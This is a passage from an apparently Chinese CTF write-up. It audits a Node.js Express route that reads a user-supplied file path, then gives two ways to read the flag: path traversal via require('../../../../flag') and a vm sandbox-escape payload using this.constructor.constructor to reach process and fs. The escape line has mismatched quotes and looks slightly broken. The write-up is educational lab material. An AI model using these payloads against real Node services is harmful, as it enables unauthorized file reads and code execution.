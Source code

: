 ```plain

  let data = fs.readFileSync(p).toString();

  res.send({
    "validator":valid,
    "data": data,
    "msg": "data is corrupted"
  })
});

const PORT = 3000;
app.listen(PORT,()=>{
  console.log(`Server is running on port ${PORT}`);
})
```

简单审计一下代码可以发现有 2 种打法

-   有 fs.readFileSync(p).toString(),直接读 flag

```plain
require('../../../../flag')
```

-   利用 vm 沙箱逃逸读文件

```plain
require('vm').vm.runInNewContext(['this.constructor.constructor('return process')().mainModule.require('fs').readFileSync('./flag').toString()'])
```

# 后记

vm2 有点看不懂了，好复杂，学不太懂，以后有机会再看

# 参考

[Escaping the vm sandbox · Issue #32 · patriksimek/vm2 (github.com)](https://github.com/patriksimek/vm2/issues/32)

[Proxy 和 Reflect - 掘金 (juejin.cn)](https://juejin.cn/post/6844904090116292616)
